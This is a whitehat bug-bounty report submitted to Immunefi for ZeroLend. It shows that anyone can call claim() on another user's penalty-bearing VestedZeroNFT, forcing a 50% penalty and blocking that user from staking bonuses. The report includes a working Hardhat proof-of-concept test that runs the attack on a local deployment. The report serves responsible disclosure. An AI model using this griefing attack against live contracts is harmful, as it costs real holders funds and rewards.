 # Griefing attack for VestedZeroNFT

Submitted  about 2 months  ago by @ox7a69 (Whitehat)  for  [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost)

----------

Whitehat Level

![](data:image/svg+xml,%3csvg%20xmlns=%27http://www.w3.org/2000/svg%27%20version=%271.1%27%20width=%2728%27%20height=%2728%27/%3e)![](https://bugs.immunefi.com/icons/advanced-whitehat-level.svg)

Advanced

[Score](https://immunefisupport.zendesk.com/hc/en-us/articles/16812282870545)9

[Accuracy](https://immunefisupport.zendesk.com/hc/en-us/articles/16812282870545)24% (16/66)

[Rank](https://immunefisupport.zendesk.com/hc/en-us/articles/16812282870545)118th

Valid Smart Contract Reports16

Report ID: #29123

Report type: Smart Contract

Has PoC?: Yes

Target: https://github.com/zerolend/governance

Impacts

-   Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)
-   Permanent freezing of funds

## Vulnerability Details

It is possible for anyone to call the  `claim()`  function of the  `VestedZeroNFT`  contract on behalf of the NFT owner. This poses an issue especially when an NFT is minted with  `penalty=true`. In such cases, the NFT owner ends up paying a penalty (currently 50%) and loses the ability to utilize the  `StakingBonus`  contract.

This situation sets the stage for a Griefing attack scenario where an attacker can trigger  `claim()`  for NFTs with  `penalty=true`. Consequently, the owners bear penalties and forfeit the opportunity to receive bonuses through the  `StakingBonus`  mechanism.

## References

-   [https://github.com/zerolend/governance/blob/main/contracts/vesting/VestedZeroNFT.sol#L159](https://github.com/zerolend/governance/blob/main/contracts/vesting/VestedZeroNFT.sol#L159)
-   [https://github.com/zerolend/governance/blob/main/contracts/vesting/VestedZeroNFT.sol#L211](https://github.com/zerolend/governance/blob/main/contracts/vesting/VestedZeroNFT.sol#L211)
-   [https://github.com/zerolend/governance/blob/main/contracts/vesting/StakingBonus.sol#L74](https://github.com/zerolend/governance/blob/main/contracts/vesting/StakingBonus.sol#L74)
-   [https://github.com/zerolend/governance/blob/main/contracts/locker/BaseLocker.sol#L333](https://github.com/zerolend/governance/blob/main/contracts/locker/BaseLocker.sol#L333)

## Proof of Concept

To run the Poc put it's code to the  `governance-main/test/Gauge.poc.ts`  file, generate a random private key, and issue the following command:

```
WALLET_PRIVATE_KEY=0x... NODE_ENV=test npx hardhat test test/Gauge.poc.ts --config hardhat.config.ts --network hardhat

```

### **PoC scenario**:

1.  The deployer generates  `VestedZeroNFT`  with  `penalty=true`  to the Whale.
2.  The Ant (attacker) quickly invokes  `claim()`  for the Whale's Nft.
3.  As a result  `50%`  penalty is paid and now  `unclaimed()`  returns  `0`  for the Nft.
4.  The Whale wants to transfer Nft to the  `StakingBonus`  contract, but their tx reverts since  `unclaimed()`  returns  `0`.

```
import { expect } from "chai";
import { deployGovernance } from "./fixtures/governance";
import { loadFixture } from "@nomicfoundation/hardhat-network-helpers";
import { SignerWithAddress } from "@nomicfoundation/hardhat-ethers/signers";
import {
  LockerToken,
  OmnichainStaking,
  StakingBonus,
  VestedZeroNFT,
  ZeroLend,
} from "../typechain-types";
import { e18 } from "./fixtures/utils";

describe("Immunefi Boost", () => {
  let ant: SignerWithAddress;
  let whale: SignerWithAddress;
  let vest: VestedZeroNFT;
  let now: number;
  let stakingBonus: StakingBonus;
  let zero: ZeroLend;
  let locker: LockerToken;
  let omniStaking: OmnichainStaking;

  beforeEach(async () => {
    const deployment = await loadFixture(deployGovernance);
    ant = deployment.ant;
    zero = deployment.zero;
    vest = deployment.vestedZeroNFT;
    stakingBonus = deployment.stakingBonus;
    locker = deployment.lockerToken;
    omniStaking = deployment.omnichainStaking;
    now = Math.floor(Date.now() / 1000);
    whale = deployment.whale;
  });


  // Run as: WALLET_PRIVATE_KEY=0x... NODE_ENV=test npx hardhat test test/Griefing.poc.ts --config hardhat.config.ts --network hardhat


  describe("Griefing", () => {
    it("Ant attacks Whale", async () => {
      expect(await vest.lastTokenId()).to.equal(0);

      // deployer should be able to mint a nft for Whale
      // with penalty = True
      await vest.mint(
        whale.address,
        e18 * 20n, // 20 ZERO linear vesting
        0, // 0 ZERO upfront
        1000, // linear duration - 1000 seconds
        0, // cliff duration - 0 seconds
        now + 1000, // unlock date
        true, // penalty!!
        0
      );

      expect(await vest.lastTokenId()).to.equal(1);

      // Ant calls claim() for minted Nft with penalty
      // Nft is minted for Whale
      await vest.connect(ant).claim(1);
      
      // Whale transfers Nft to StakingBonus contract
      // But it reverts
      await expect(
        vest
          .connect(whale)
          ["safeTransferFrom(address,address,uint256)"](
            whale.address,
            stakingBonus.target,
            1
        )
      ).to.be.reverted;
    });
  });
});

```
